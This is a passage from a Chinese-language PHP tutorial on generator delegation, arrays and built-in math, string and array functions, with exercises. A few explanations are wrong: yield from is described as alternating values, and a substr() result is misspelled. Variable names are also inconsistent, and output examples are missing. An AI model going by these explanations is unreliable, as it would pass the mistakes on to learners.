这段代码将产生以下结果：


#### 生成器委托

生成器委托是一个高级概念，它允许一个生成器调用另一个生成器以获取值。这使得解耦值生成逻辑并在新生成器中复用现有生成器成为可能。

以下是生成器委托的示例：

假设我们有两个生成器，一个生成偶数，另一个生成奇数。我们可以创建第三个生成器，使用这两个生成器来生成一个包含偶数和奇数的序列。

```php
<?php

// 第一个偶数生成器

function generate_even_numbers($max) {

    for ($i = 0; $i <= $max; $i += 2) {

        yield $i;

    }

}

// 第二个奇数生成器

function generate_odd_numbers($max) {

    for ($i = 1; $i <= $max; $i += 2) {

        yield $i;

    }

}

// 第三个生成器调用前两个生成器

function generate_even_odd_numbers($evenmax, $oddmax) {

    yield from generate_even_numbers($evenmax);

    yield from generate_odd_numbers($oddmax);

}

// 使用生成器显示一系列偶数和奇数

foreach (generate_even_odd_numbers(20, 30) as $number) {

    echo $number . " ";

}

?>
```


这段代码定义了三个数字生成器：`generate_even_numbers()`、`generate_odd_numbers()` 和 `generate_even_odd_numbers()`。

第一个生成器 `generate_even_numbers()` 生成一个不超过指定最大值的偶数序列。第二个生成器 `generate_odd_numbers()` 生成一个不超过指定最大值的奇数序列。

第三个生成器 `generate_even_odd_numbers()` 使用生成器委托（使用 `yield from` 关键字）来调用前两个生成器，并生成一个交替的偶数和奇数序列，直到达到为每个生成器指定的最大值。

接下来，代码使用生成器 `generate_even_odd_numbers()` 来显示一个数字序列，其中偶数不超过 20，奇数不超过 30。这是通过一个 foreach 循环实现的，该循环遍历生成器生成的值并在屏幕上显示它们。

执行此代码将产生以下结果：


#### 结论

PHP 函数是基本的编程元素，它们允许将代码分组在一起，使其可复用且模块化。它们提供了一种高效的方式来组织和构建代码，使维护和项目管理更加容易。我们探讨了函数的各个方面，包括它们的声明、调用、参数管理和变量作用域，以及类型声明和命名参数等更高级的概念。

理解函数的工作原理以及如何恰当地使用它们对任何 PHP 开发者至关重要，因为这能够创建更健壮、可扩展且易于维护的应用程序。通过掌握本章介绍的概念，你将能够编写更整洁、更模块化、更高效的代码，这将显著提高你作为 PHP 开发者的生产力。

#### 练习

#### 练习 12

编写一个函数，测试一个数字是否为 3 的倍数，并根据测试结果显示一条消息。

#### 练习 13

编写一个 PHP 函数，接收三个数字作为输入，并返回这三个数字中最大的一个。

#### 练习 14

编写一个函数，显示找到作为参数给定的两位整数所需的随机数。

### 第 5 章

### PHP 中的数组

数组在编程中起着至关重要的作用，提供了一种强大且灵活的方式来组织和操作数据集。在 PHP 中，数组是多功能的数据结构，可以包含不同类型的有序元素集合，例如数字、字符串甚至其他数组。本章将详细探讨 PHP 中的数组，从它们的声明和初始化到使用预定义函数进行高级操作。掌握数组对于创建动态、高性能的 Web 应用程序至关重要。

PHP 中的数组是一种数据结构，允许你在单个变量中存储多个值。这些值可以是各种类型，如整数、字符串、布尔值等。数组中的每个值都与一个键关联，该键可以是数字或字符串，具体取决于数组类型。

在 PHP 中，有几种类型的数组。让我们一起探索 PHP 数组的世界，发现它们所提供的所有功能！


#### 索引数组（数字索引）

索引数组，也称为数字索引数组，是每个元素都与一个数字索引关联的数据结构。这些索引通常从零开始，并为每个额外元素递增 1。索引数组是 PHP 中最简单的数组形式之一，广泛用于存储有序的数据集合。

在本节中，我们将探讨如何在 PHP 中声明、初始化和操作索引数组。我们还将了解常见操作，如添加、修改、删除和遍历索引数组的元素。通过理解这些基本概念，你将能够在 PHP 项目中高效地使用索引数组。

##### 索引数组的声明和初始化

在 PHP 中，你可以通过多种方式声明和初始化索引数组。以下是一些示例：

```php
<?php

 // 声明一个空的索引数组  

 $empty_array = [];

 // 声明并初始化一个带有值的索引数组  

 $numbers = [10, 20, 30, 40, 50];  

 // 使用 array() 函数声明一个索引数组  

 $lastnames = array("Emma", "Alice", "Lina", "Sarah", "Thomas");

?>
```

在本例中，我们定义了三种数组声明类型：

第一种声明：`$empty_array = [];` 声明了一个名为 `$empty_array` 的空索引数组。空方括号 `[]` 用于在 PHP 中创建一个新的空数组。

第二种声明：

`$numbers = [10, 20, 30, 40, 50];` 声明并初始化了一个名为 `$numbers` 的索引数组，其值为 `[10, 20, 30, 40, 50]`。值由逗号分隔并包含在方括号 `[]` 中。

第三种声明：

`$lastnames = array("Emma", "Alice", "Lina", "Sarah", "Thomas");` 使用 `array()` 函数声明了一个名为 `$lastnames` 的索引数组。`array()` 函数通过在括号中将值作为参数指定来创建数组。值由逗号分隔并包含在圆括号 `()` 中。

总之，这些索引数组声明展示了在 PHP 中创建和初始化索引数组的不同方式，无论是使用空方括号 `[]` 还是 `array()` 函数。

##### 访问索引数组的元素

要访问索引数组的特定元素，请使用其对应的数字索引，从 0 开始。语法如下：


在上面的示例中，如果你想访问 `numbers` 数组的元素，只需使用它们的索引，同时记住第一个元素的索引始终为 0：

```php
<?php  

 $numbers = [10, 20, 30, 40, 50];

 echo $numbers[0]."<br>";  

 echo $numbers[1]."<br>";  

 echo $numbers[2]."<br>";  

 echo $numbers[3]."<br>";  

 echo $numbers[4]."<br>";  

?>
```

如果你执行此代码，将得到以下结果：


##### 向索引数组添加元素

要向索引数组添加新元素，只需将值赋给一个新索引。PHP 会自动处理正确的索引。以下是如何向前面示例中的 `$numbers` 和 `$name` 数组添加新元素的示例：

```php
<?php  

 // 声明并初始化一个带有值的索引数组  

 $numbers = [10, 20, 30, 40, 50];  

 // 使用 array() 函数声明一个索引数组  

 $lastnames = array("Emma", "Alice", "Lina", "Sarah", "Thomas");  

 $numbers[] = 60; // 在数组末尾添加 60  

 $lastnames[5] = "Eve"; // 在数组索引 5 处添加 "Eve"  

?>
```

执行此代码后，数组 `$numbers` 和 `$names` 变为：

`$numbers` = `[10, 20, 30, 40, 50, 60]` 

`$lastname` = `["Emma", "Alice", "Lina", "Sarah", "Thomas", "Eve"]`

##### 修改和删除元素

要修改索引数组中现有的元素，可以通过其索引访问该元素并为其赋予新值。要删除元素，可以使用 `unset()` 函数。

示例：

如果你想修改前面示例中的 `$number` 数组，将元素 20 替换为 100，只需添加代码行：

```php
 // 通过将第二个元素替换为 100 来修改它

 $numbers[1] = 100; // 要修改的元素索引为 1
```

如果你想从 `$lastname` 数组中删除 "Sarah" 元素，只需使用 PHP 中预定义的 `unset()` 函数：

```php
 unset($lastnames[3]); // 删除第四个元素
```

##### 遍历索引数组

要在 PHP 中遍历索引数组，可以使用各种流程控制结构，例如我们在前一章学习的 `for` 循环，或我们接下来将要学习的 `foreach` 循环。

For 循环：


当您预先知道数组中的元素数量时，会使用 `for` 循环。您可以使用索引遍历数组的每个元素。要查明数组中的元素数量，PHP 提供了一个名为 `count()` 的函数，它返回作为参数传递的数组中的元素数量。

示例：

```php
$numbers = [10, 20, 30, 40, 50];
$length = count($numbers);
for ($i = 0; $i < $length; $i++) {
    echo $numbers[$i] . "<br>";
}
```

在本例中，我们有一个名为 `$numbers` 的索引数组，包含五个元素：10、20、30、40 和 50。`count()` 函数用于获取数组中元素的总数，并存储在 `$length` 变量中。

接下来，使用 `for` 循环通过索引遍历数组的每个元素。变量 `$i` 初始化为 `0`，只要 `$i` 的值小于 `$length`，循环就会继续。在每次迭代中，索引 `$i` 处的数组元素值会通过 `echo` 显示，后跟一个 `<br>` 标签以在 HTML 渲染中创建换行。执行此代码将显示以下结果：


`for` 循环非常适合浏览此类数组，且其用法完全得当。然而，我们现在将转向另一种专门为数组设计的循环：`foreach` 循环。

#### Foreach 循环

当您想要遍历数组的每个元素，而不必预先担心知道数组大小时，会使用 `foreach` 循环。`foreach` 循环有两种不同的语法；我们用于遍历索引数组的第一种语法是：


在此语法中，`$value` 变量在迭代期间直接包含 `$table` 数组中每个元素的值。在这种形式的 `foreach` 循环中，无法访问元素键。这种 `foreach` 循环语法允许您仅根据值遍历数组元素，而无需检索与每个值关联的键。每次循环迭代时，`$value` 变量包含数组中当前遍历元素的值。当仅需要元素的值而无需担心关联键时，这简化了数组遍历的过程。

示例：

```php
$numbers = [10, 20, 30, 40, 50];
foreach ($numbers as $number) {
    echo $number . "<br>";
}
```

本例使用 `foreach` 循环遍历 `$numbers` 数组。在此循环中，`$number`（单数形式）代表每次迭代时 `$numbers` 数组中的每个元素。实际上，在每次迭代中，`$number` 变量取数组中 `current`（当前）元素的值。因此，在每次循环中，`$number` 的值被显示，后跟一个用于换行的 `<br>` 标签。此循环便于浏览数组的所有元素，而无需像 `for` 循环那样显式管理索引。此代码的输出结果与使用 `for` 循环获得的结果完全相同。

#### 关联数组

顾名思义，关联数组将键与值关联起来。与通过数字位置访问值的索引数组不同，在关联数组中，值是通过其关联的键来访问的。以下是在 PHP 中声明和初始化关联数组的方法：

##### 声明空关联数组

声明空关联数组的方法与声明索引数组相同：

```php
$empty_associative_array = [];
```

在本例中，我们使用 PHP 的数组语法声明并初始化一个空关联数组。变量 `$empty_associative_array` 被赋值为一个空关联数组，使用空的双方括号，即一个不包含任何键值对的数组。

此声明创建了一个空关联数组，可用于稍后在代码中通过将键与值关联来存储数据。

##### 声明并初始化带值的关联数组

关联数组的工作原理与索引数组相同，不同之处在于每个键关联一个不同的名称而不是数字。让我们以以下图示中的数组为例。我们如何在 PHP 中声明并初始化此数组？


用于声明并初始化 `$person` 关联数组的语法如下：

```php
$person = [
    "last_name" => "Dupont",
    "first_name" => "Amine",
    "age" => 29,
    "gender" => "M",
    "country" => "France"
];
```

在本例中，我们使用 PHP 的关联数组语法初始化一个关联数组 `$person`。

此语法使用方括号 `[]` 来界定关联数组的开始和结束。在方括号内，数组的每个元素都是一个 `key-value`（键值）对，其中键后跟 `=>` 符号及其关联的值。键值对之间用逗号分隔。此语法允许您创建一个关联数组，其中每个键关联一个特定值。

键 "last_name"、"first_name"、"age"、"gender" 和 "country" 通过 `=>` 符号分别关联其对应的值："Dupont"、"Amine"、29、"M" 和 "France"。此表存储一个人的信息，如姓氏、名字、年龄、性别和国家。键用于访问表中的对应值。

##### 使用 array() 函数声明关联数组

声明关联数组的第三种方法是使用 PHP 预定义的 `array()` 函数：

```php
$grades = array(
    "Maths" => 15,
    "Physics" => 18,
    "English_language" => 12
);
```

在本例中，我们使用 `array()` 函数初始化一个关联数组 `$grades`。此语法以 `array()` 关键字开始，后跟一个键值对列表。每个键值对通过指定键、后跟 `=>` 符号及其关联的值来定义。键值对之间用逗号分隔。此语法允许您创建一个关联数组，其中每个键关联一个特定值。

因此，`$grades` 数组包含三个元素："Maths" 关联分数 15，"Physics" 关联分数 18，"English_language" 关联分数 12。键用于访问表中的对应值。

##### 访问关联数组中的元素

要访问关联数组中的特定元素，我们在方括号中使用对应的键。

例如，要访问 `$person` 关联数组中的 "first_name" 元素，我们使用 `$person["first_name"]`。

如果您在脚本中添加以下代码行，将检索并显示名字："Amine"。

```php
echo $person["first_name"]; //retrieves and displays the first name: Amine
```

要访问 `$grades` 数组中的数学成绩，我们使用 `$grades["Maths"]`。

```php
echo $grades["Maths"]; //retrieve and display the Maths grade: 15
```

##### 向关联数组添加元素

我们可以通过向新键赋值来向关联数组添加新元素。

例如，要向关联数组 `$person` 添加值为 "amine.dupont@example.com" 的 "email" 元素，我们使用：

```php
$person["email"] = "amine.dupont@example.com";
```

要显示数组的所有元素，我们可以使用 PHP 中预定义的 `print_r()` 函数：

```php
$person = [
    "last_name" => "Dupont",
    "first_name" => "Amine",
    "age" => 29,
    "gender" => "M",
    "country" => "France"
];
$person["email"] = "amine.dupont@example.com";
echo "<pre>";
print_r($person);
echo "</pre>";
```


在这段代码中，我们有一个名为 `$person` 的关联数组，包含五个键值对，分别表示一个人的不同信息：姓氏、名字、年龄、性别和国家。接着，使用语法 `$person["email"] = "amine.dupont@example.com";` 向数组中添加了一个值为 "amine.dupont@example.com" 的新键 "email"。

`print_r()` 函数用于显示 `$person` 数组的内容。通过用 HTML 标签 `<pre>` 和 `</pre>` 包裹该函数，结果将在浏览器中以格式化、更易读的方式显示。

如下图所示，运行此代码的结果将显示 `$person` 数组的完整内容，包括新添加的 "email" 键，所有键值对均以可读格式呈现。


##### 修改关联数组中的元素

要更改关联数组中某个元素的值，只需向对应的键重新赋一个新值即可。

例如，要更改 `$person` 关联数组中该人的年龄，我们使用：

```php
$person["age"] = 40;
```

执行这行代码后，`$person` 数组中 "age" 元素的值变为 40。

##### 从关联数组中删除元素

要从关联数组中删除特定元素，我们使用 PHP 预定义的 `unset()` 函数，并传入要删除元素的键。

例如，要从 `$person` 关联数组中删除 "gender" 元素，我们使用：

```php
unset($person["gender"]);
```

##### 遍历关联数组

关联数组是一种数据结构，其中每个元素都与一个键关联，而不是数字索引。这允许使用显式键而不是数字索引来访问值。

以下是遍历关联数组的一些方法：

###### 使用 foreach 循环

`foreach` 循环是遍历关联数组特别有效的工具。它允许你轻松浏览数组中的每个键值对。我们已经见过它用于索引数组。现在让我们探索如何将此循环用于关联数组。这是 `foreach` 循环的第二种语法：


在此语法中，我们有：

*   `$table`：表示要遍历的表（数组）。
*   `$key`：表示数组中当前元素的键。
*   `$value`：表示数组中当前元素的值。

`foreach` 循环遍历数组的每个元素，将每个元素的键和值分别赋给变量 `$key` 和 `$value`。循环内部的指令将针对数组的每个元素执行一次。

这是一个示例：

```php
<?php

$person = [
    "last_name" => "Dupont",
    "first_name" => "Amine",
    "age" => 29,
    "gender" => "M",
    "country" => "France"
];

foreach ($person as $key => $value) {
    echo "Key: $key, Value: $value <br>";
}

?>
```

在此示例中，我们有一个名为 `$person` 的关联数组，即我们之前创建的那个。

`foreach` 循环用于遍历 `$person` 数组。在循环的每次迭代中，数组中每个元素的**键**和**值**分别存储在 `$key` 和 `$value` 变量中。

在 `foreach` 循环内部，我们使用 `echo` 函数显示数组中每个元素的键和值。键使用 `$key` 变量显示，值使用 `$value` 变量显示。

因此，对于 `$person` 数组的每个元素，此循环都会显示相应的键，后跟其值，中间用逗号分隔，然后换行，以便在浏览器中获得更好的可读性。

结果：


#### 多维数组

简单数组以线性方式存储简单数据（数字、字符串等），而多维数组是一种复杂的数据结构，其中每个元素本身可以是一个数组。这些数组对于表示表格数据、矩阵或其他需要多层组织的复杂数据结构非常有用。以下图所示的多维数组为例。该表显示了法国、加拿大、摩洛哥和西班牙的首都和人口。


通过分析此多维表的结构，我们可以推断它是作为一个国家列表构建的，其中每个国家由一个包含三个元素的子表表示：国家名称、首都和人口数量。

以下是表中每个元素的组织方式：

*   每个子表的第一个元素是国家名称。
*   第二个元素是国家的首都。
*   第三个元素是国家的人口数量。

这样，每个子表代表一个国家及其相关特征，所有这些子表被组合在一个主表中，形成完整的多维数组。在 PHP 中有几种声明和初始化此数组的方法。

##### 方法 1：使用 `array()` 函数创建数组

```php
<?php

$info_country = array(
    array("France", "Paris", 67),
    array("Canada", "Ottawa", 38),
    array("Morocco", "Rabat", 40),
    array("Spain", "Madrid", 47)
);

?>
```

##### 方法 2：使用方括号语法 `[]`

```php
<?php

$info_country = [
    ["France", "Paris", 67],
    ["Canada", "Ottawa", 38],
    ["Morocco", "Rabat", 40],
    ["Spain", "Madrid", 47]
];

?>
```

这两种方法是等价的，产生相同的结果。它们都定义了一个包含四个子数组的多维数组，每个子数组代表一个国家及其关联信息（名称、首都、人口数量）。唯一的区别在于所用的语法：第一种方法使用 `array()` 函数，而第二种使用 PHP 的简短数组语法，即方括号表示法 `[]`。

**主**表的每个元素都是一个索引数组，包含特定国家的信息，并代表上图表格中的一行。每个数组的第一个元素代表国家名称，第二个元素代表首都，第三个元素代表人口数量。

为了可视化该表的结构化内容并更好地理解其布局，我们可以使用 `print_r()` 函数，并用 HTML `<pre>` 标签将其包裹：

```php
<?php

$info_country = array(
    array("France", "Paris", 67),
    array("Canada", "Ottawa", 38),
    array("Morocco", "Rabat", 40),
    array("Spain", "Madrid", 47)
);

echo "<pre>";
print_r($info_country);
echo "</pre>";

?>
```

执行此代码时，显示的结果将类似于下图。该结果清晰地展示了多维数组的结构。主数组由第一个 "Array ( )" 表示，包含四个索引从 0 到 3 的子数组。这些子数组中的每一个都包含三个索引从 0 到 2 的元素。


##### 访问多维数组的元素

以多维数组 `$info_country` 为例，要访问其元素，可以使用数字索引，然后访问其单个元素。例如，要访问法国的首都，可以使用以下语法：

```php
// 访问法国的首都
$capital_france = $info_country[0][1];
echo $capital_france; // 显示 "Paris"
```

在此示例中，`$info_country[0]` 返回对应法国的第一个子表，而 `$info_country[0][1]` 访问该子表的第二个元素，即首都（巴黎）。

例如，要访问摩洛哥的人口数量，可以使用以下语法：

```php
// 访问摩洛哥的人口数量
$population_morocco = $info_country[2][2];
echo $population_morocco; // 显示 40
```


在本例中，`$info_country[2]` 返回对应摩洛哥的第三个子表，而 `$info_country[2][2]` 访问该子表的第三个元素，即摩洛哥的人口数量。

##### 二维关联数组

在 `$country` 表的示例中，行和列都使用索引，这有时会导致元素的指定产生歧义。为了解决这个问题，我们可以不使用索引作为列的标识，而是使用键，以获得更好的可读性和更直观的表格理解。


要在 PHP 中声明并初始化此数组，我们可以使用**方括号**表示法 `[]` 或 `array()` 函数：

**方法 1：**

```php
$country_information = array(

 array("country" => "France", "capital" => "Paris", "inhabitants" => 67),

 array("country" => "Canada", "capital" => "Ottawa", "inhabitants" => 38),

 array("country" => "Morocco", "capital" => "Rabat", "inhabitants" => 40),

 array("country" => "Spain", "capital" => "Madrid", "inhabitants" => 47)

);
```

**方法 2：**

```php
$country_information =[

 ["country" => "France" , "capital" => "Paris" , "inhabitants" => 67],

 ["country" => "Canada" , "capital" => "Ottawa" , "inhabitants" => 38],

 ["country" => "Morocco" , "capital" => "Rabat" , "inhabitants" => 40],

 ["country" => "Spain" , "capital" => "Madrid" , "inhabitants" => 47]

];
```

这两种方法，无论是使用简写语法 `[...]` 还是 `array()` 函数，在结果方面都是等效的。它们都创建了一个包含相同数据的多维数组。主要区别在于所使用的语法：

- 简写语法 `[...]` 更加简洁现代，因其增强的可读性而常被首选。
- `array()` 函数较旧且较冗长，但仍被广泛使用，在某些情况下可能是必要的，特别是在动态构建数组时。

简而言之，这两种方法均有效，可根据编码偏好和特定项目需求进行选择。

这两段代码均定义了一个名为 `$country_information` 的多维数组。该数组的每个元素本身都是一个关联数组，包含特定国家的信息。每个子数组将一个键（`country`、`capital`、`inhabitants`）与对应的值关联（第一个子数组为 `France`、`Paris`、`67`，以此类推）。因此，`$country_information` 是一个关联数组的集合，每个数组代表某个特定国家的信息。

要访问此类多维数组的元素，我们使用数字索引访问上层数组，然后使用关联键访问内部元素。

例如，要访问第一个国家的首都，请使用：

```php
echo $country_information[0]["capital"]; // 显示 "Paris"
```

同样，要访问第三个国家的人口数量：

```php
echo $country_information[2]["inhabitants"]; // 显示 40
```

##### 遍历多维数组

要在 PHP 中遍历多维数组，我们通常使用 `foreach` 循环的组合。正如我们之前所见，多维数组由嵌套数组组成，每个数组层级都可以使用 `foreach` 循环单独遍历。

让我们以之前看到的 `$country_information` 表为例：

```php
<?php

$country_information =[

 ["country" => "France" , "capital" => "Paris" , "inhabitants" => 67],

 ["country" => "Canada" , "capital" => "Ottawa" , "inhabitants" => 38],

 ["country" => "Morocco" , "capital" => "Rabat" , "inhabitants" => 40],

 ["country" => "Spain" , "capital" => "Madrid" , "inhabitants" => 47]

];

foreach ($country_information as $country) {

 foreach ($country as $key => $value) {

 echo "$key: $value <br>";

 }

 echo "<br>";

}

?>
```

这个嵌套的 `foreach` 循环首先遍历 `$country_information` 数组的每个元素，然后在每次迭代中，遍历与当前国家关联的数组的每个内部元素（键值对）。`echo` 指令用于显示每个键值对。如果您运行此代码，将获得类似以下的结果：


#### 结论

在本章中，我们详细探讨了 PHP 中数组操作的各个方面，数组是编程中的基本数据结构。我们学习了如何声明和初始化数组、访问其元素、使用循环遍历它们，以及理解不同的数组类型，如索引数组、关联数组和多维数组。

我们还研究了常见的数组操作，如添加、修改和删除元素，以及在数组中组织和操作数据的最佳实践。

最后，我们探索了高级数组功能，如多维数组和关联数组，并学习了如何在 PHP 程序中有效地使用它们。

通过将这些知识与我们之前探讨的概念（如函数和循环）相结合，我们现在对 PHP 中的数组操作有了扎实的理解，这将使我们能够创建健壮且动态的 PHP 应用程序。

#### 练习

#### 练习 15

编写一个 PHP 脚本，将姓名列表存储在数组中，然后以项目符号列表的形式显示这些姓名。

#### 练习 16

编写一个 PHP 脚本，将三种颜色的名称存储在数组中，并按逆序显示它们。

#### 练习 17

编写一个 PHP 脚本，将姓名列表存储在数组中，并按字母顺序显示它们。

#### 练习 18

编写一个 PHP 脚本，创建一个包含水果名称和价格的关联数组，并使用 `foreach` 循环显示数组的每个元素。

#### 练习 19

编写一个多维关联数组，其键为人名，值为包含该人名、城市和年龄的索引数组。

然后使用此表为这些人中的每一个显示一个句子，给出该人的名、姓和年龄。

#### 练习 20：函数和数组 (foreach)

编写一个 PHP 函数，接受一个数字数组作为输入，并返回所有这些数字的总和。

#### 练习 21：函数和数组 (foreach)

编写一个函数，接受一个数字数组作为参数，并返回数组中所有偶数的总和。

#### 练习 22：函数和数组 (求平均值)

编写一个函数，接受一个数字数组作为参数，并返回数组中所有偶数的平均值。

#### 练习 23：函数和数组 (查找最大值)

编写一个函数，接受一个数字数组作为参数，并返回数组中所有数字的最大值。

### 第 6 章

### PHP 内置函数

PHP 的内置函数，也称为预定义函数或原生函数，是默认包含在 PHP 语言中的函数。它们为常见编程任务提供了广泛的现成功能，例如数学运算、字符串操作、日期和时间处理、数组管理、文件访问等。无论您是在开发动态网站、复杂的 Web 应用程序，还是任何其他 PHP 项目，这些内置函数都能让您以高效、简洁的方式完成多种任务。

在本章中，我们将探索 PHP 内置函数的某些类别，并了解如何使用它们来满足各种 Web 开发需求。我们将深入研究用于执行复杂计算的数学函数、用于操作和格式化文本的字符串函数、用于管理数据集的数组函数，以及用于精确管理时间的日期和时间函数。

本章将让您深入了解 PHP 内置函数提供的功能，并通过实际示例说明它们在不同 Web 开发场景中的用法。准备好深入 PHP 内置函数的世界，发现它们如何简化并加速您的 Web 开发流程。

#### 数学函数


### PHP 的内置数学函数

PHP 的内置数学函数提供了多种工具，用于执行常见的数学运算。从简单的计算到更高级的操作，PHP 提供了全套函数来满足开发者的需求。在本节中，我们将探讨 PHP 中一些最常用的数学函数。

#### 基础函数

PHP 的基础函数为执行简单的数学运算提供了必要的工具。它们在 Web 开发中被广泛用于执行基本计算和操作数字。下表总结了一些最常用的基础函数：


*   **`abs()`**：此函数返回一个数的绝对值，即不带符号的值。例如：

    ```php
    $number = -10;
    $absolute_value = abs($number); // $absolute_value 为 10
    ```

*   **`sqrt()`**：`sqrt()` 函数返回一个数的平方根。例如：

    ```php
    $number = 25;
    $square_root = sqrt($number); // $square_root 为 5
    ```

*   **`pow()`**：此函数返回一个数的另一个数次幂的值。例如：

    ```php
    $number = 2;
    $power = 3;
    $result = pow($number, $power); // $result 为 8 (2³)
    ```

*   **`round()`**：`round()` 函数根据指定的精度将数字四舍五入到最近的小数位。示例如下：

    ```php
    $number1 = 3.7;
    $arrondi_number1 = round($number1); // $arrondi 为 4
    $number2 = 12.146345;
    $arrondi_number2 = round($number2, 2); // 将 $number2 四舍五入到 2 位小数，结果为 12.15
    echo $arrondi_number1;
    echo "<br>";
    echo $arrondi_number2;
    ```

    结果：

    

这些基础函数在许多需要对数字进行简单操作的编程场景中非常有用。它们为在 PHP 中执行基本数学计算提供了灵活性和易用性。

#### 三角函数

在 PHP 中，集成了三角函数，以便开发者能够高效、准确地执行三角计算。下表概述了其中一些函数。


#### 随机函数

PHP 的随机函数可用于在应用程序中生成随机数和执行随机操作。它们广泛用于游戏、模拟、随机数据生成等。以下是 PHP 中一些最常用的随机函数：

##### 随机数生成

*   **`rand($min, $max)`**：此函数在 `$min` 和 `$max` 值之间生成一个随机数。返回的值为整数。

    示例：

    ```php
    $random_number = rand(1, 100);
    echo "1 和 100 之间的随机数: $random_number";
    ```

    每次运行此代码，您都会得到一个 1 到 100 之间的随机数。

*   **`mt_rand($min, $max)`**：类似于 `rand()`，但使用 **Mersenne Twister（梅森旋转算法）** 随机数生成器，以其更好的随机数分布而闻名。

    示例：

    ```php
    $random_number = mt_rand(1000, 9999);
    echo "随机 4 位 PIN 码: $random_number";
    ```

#### 字符串函数

PHP 中的字符串函数提供了多种工具，用于高效地操作和处理字符串。以下是此类别中一些最常用的函数：

##### `strlen()`

此函数返回字符串的长度。

示例：

```php
$text = "Hello";
$length = strlen($text); // $length 为 5
echo $length;
```

结果：


##### `strpos()`

此函数返回子字符串在字符串中首次出现的位置。

示例：

```php
$text = "Good morning";
$position = strpos($text, "mor"); // $position 为 5
```

在本例中，我们有一个包含值 "Good morning" 的字符串 `$text`。`strpos()` 函数用于查找子字符串 "mor" 在字符串 `$text` 中首次出现的位置。由于 "mor" 在 "Good morning" 中从第 5 个位置开始（索引从 0 开始），`strpos()` 函数返回值 5，即子字符串 "mor" 在字符串 `$text` 中的起始位置。请注意，位置索引从零开始。字母 "G" 索引为 0，字母 "o" 索引为 1，第二个字母 "o" 索引为 2，字母 "d" 索引为 3，空格索引为 4，字母 "m" 索引为 5。

##### `substr()`

此函数返回从指定位置和长度开始的给定字符串的子字符串。

示例：

```php
$text = "Hello everyone";
$substring = substr($text, 3, 10); // $substring 为 "lo evryon"。
echo $substring;
```

在本例中，我们有一个包含值 " Hello everyone" 的字符串 `$text`。`substr()` 函数用于从 `$text` 中提取子字符串。函数的参数如下：第一个参数是原始字符串 (`$text`)，第二个参数是提取的起始位置（本例中为 3，即从字符串 `$text` 的第 4 个字符开始，因为索引从零开始），第三个参数是要提取的子字符串的长度（本例中为 10 个字符）。因此，`substr()` 函数从第 3 个位置开始，提取长度为 10 个字符的子字符串，得到 "lo evryon"。空格也算作需要考虑在内的字符。

结果：


##### `strtoupper()` 和 `strtolower()`

这些函数分别将字符串转换为大写或小写。

示例：

```php
$text = "Hello everyone";
$upper_text = strtoupper($text); // $upper_text 为 "HELLO EVERYONE"。
$lower_text = strtolower($text); // $lower_text 为 "hello everyone"。
echo $upper_text;
echo "<br>";
echo $lower_text;
```


##### `str_replace()`

此函数用另一个子字符串替换字符串中所有出现的指定子字符串。

示例：

```php
$text = "Hello everyone";
$new_text = str_replace("everyone", "friends", $text);
echo $new_text;
```

在此代码中，`str_replace()` 函数将字符串 `$text` 中的 "everyone" 替换为 "friends"。如果您运行此代码，将得到以下结果：


简而言之，这些函数只是 PHP 中可用于高效灵活地操作字符串的众多函数中的几个例子。

#### 数组函数

数组操作是 PHP 中的常见任务，语言提供的内置函数使其变得更加容易。以下是用于处理数组的一些最常用函数：

| 函数 | 含义 |
| --- | --- |
| `count()` | 计算数组中的元素数量 |
| `sort()` | 按升序对数组进行排序 |
| `rsort()` | 按降序对数组进行排序 |
| `array_push()` | 将一个或多个元素添加到数组末尾 |
| `array_unshift()` | 将一个或多个元素添加到数组开头 |
| `array_pop()` | 删除数组的最后一个元素 |
| `array_shift()` | 删除数组的第一个元素 |
| `array_slice()` | 提取数组的一部分 |
| `array_merge()` | 合并一个或多个数组 |
| `array_key_exists()` | 检查键是否存在于数组中 |
| `in_array()` | 检查给定值是否存在于数组中 |
| `array_search()` | 在数组中搜索给定值并返回对应的键 |
| `array_replace()` | 用一个或多个其他数组的元素替换数组的元素 |

##### `sort()` 函数

`sort()` 函数按值的升序对数组进行排序。它直接就地修改数组，并返回一个布尔值指示操作是否成功。示例如下：

```php
$fruits = ["orange", "apple", "banana", "strawberry"];
sort($fruits);
echo "<pre>";
print_r($fruits);
echo "</pre>";
```

在本例中，`$fruits` 数组按升序排序，结果如下：


### PHP 数组与日期时间函数

#### 数组操作函数

##### `array_push()`
`array_push()` 函数用于向数组末尾添加一个或多个元素。它直接修改原数组并返回新的元素总数。

示例：
```php
<?php
$fruits = ["orange", "apple", "banana", "strawberry"];
array_push($fruits, "Pineapple", "kiwi");
echo "<pre>";
print_r($fruits);
echo "</pre>";
?>
```
此例中，"Pineapple" 和 "Kiwi" 被追加到 `$fruits` 数组末尾。


##### `array_pop()`
`array_pop()` 函数删除数组的最后一个元素并返回该元素。它直接修改当前数组。

示例：
```php
<?php
$fruits = ["orange", "apple", "banana", "strawberry"];
$last_fruit = array_pop($fruits);
echo "The last fruit was: " . $last_fruit . "<br>";
echo "<pre>";
print_r($fruits);
echo "</pre>";
?>
```
此例中，`array_pop()` 删除了 `$fruits` 数组的最后一个元素 "strawberry"。变量 `$last_fruit` 现在包含值 "strawberry"，`$fruits` 数组被修改如下：


##### `array_slice()`
`array_slice()` 函数根据指定参数返回数组的指定部分。它不修改原数组，而是返回一个包含选定元素的新数组。

**语法：**


参数说明：
- `$array`：要从中提取部分的原始数组。
- `$start`：开始提取元素的起始索引。
- `$length`：要提取的元素数量。如果省略，则包含从 `$start` 开始的所有元素。
- `$preserve_keys`：布尔值，指示是否在结果数组中保留关联键。默认情况下，键从零开始重新索引。

示例：
```php
<?php
$fruits = ["apple", "banana", "orange", "strawberry", "pineapple"];
$portion = array_slice($fruits, 1, 3);
echo "<pre>";
print_r($portion);
echo "</pre>";
?>
```
此例从索引 1（第二个元素 "banana"）开始提取 `$fruits` 数组的部分，包含接下来的三个元素。生成的数组 `$portion` 将包含 "banana"、"orange" 和 "strawberry"。注意原始 `$fruits` 数组未被修改。如果不指定提取的元素数量，则会提取从 `$start` 开始的所有元素。


##### `array_merge()`
`array_merge()` 函数用于将两个或多个数组合并为一个数组。它接受作为参数的数组并返回一个包含所有源数组元素的新数组。

**语法：**


参数：
- `$tab1, $tab2, … $tabn`：要合并的数组。可提供多个用逗号分隔的数组。

示例：
```php
<?php
$tab1 = ["a" => "apple", "b" => "banana"];
$tab2 = ["c" => "orange", "d" => "strawberry"];
$tab3 = ["e" => "ananas"];
$result = array_merge($tab1, $tab2, $tab3);
echo "<pre>";
print_r($result);
echo "</pre>";
?>
```
